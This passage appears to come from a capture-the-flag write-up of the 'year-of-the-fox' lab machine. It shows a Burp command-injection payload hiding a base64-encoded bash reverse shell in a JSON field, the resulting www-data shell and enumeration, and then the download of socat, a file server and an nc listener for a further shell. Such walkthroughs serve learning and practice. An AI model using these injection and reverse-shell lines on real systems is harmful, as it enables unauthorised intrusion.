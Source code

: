 **BURP PAYLOAD**:

```bash
{"target":"\";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yLjM3LjM3LzIyMjQ0IDA+JjE= | base64 -d | bash; \""}
```

```bash
listening on [any] 22244 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.163.252] 52352
bash: cannot set terminal process group (724): Inappropriate ioctl for device
bash: no job control in this shell
www-data@year-of-the-fox:/var/www/html/assets/php$ whoami
www-data
www-data@year-of-the-fox:/var/www/html/assets/php$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@year-of-the-fox:/var/www/html/assets/php$ dpkg --version
Debian 'dpkg' package management program version 1.19.0.5 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.
www-data@year-of-the-fox:/var/www/html/assets/php$ uname -a
Linux year-of-the-fox 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
www-data@year-of-the-fox:/var/www/html/assets/php$ 
```

> **Gathering Reverse Shell via Socat**
> 

`wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat` 

```bash
socat                                100%[====================================================================>] 366.38K  1.50MB/s    in 0.2s    

2024-09-10 07:53:14 (1.50 MB/s) - ‘socat’ saved [375176/375176]

```

For socat source:

[github.com](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

`python3 -m http.server 8000`

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`nc -nlvp 13232`

```bash
listening on [any] 13232 ...
```
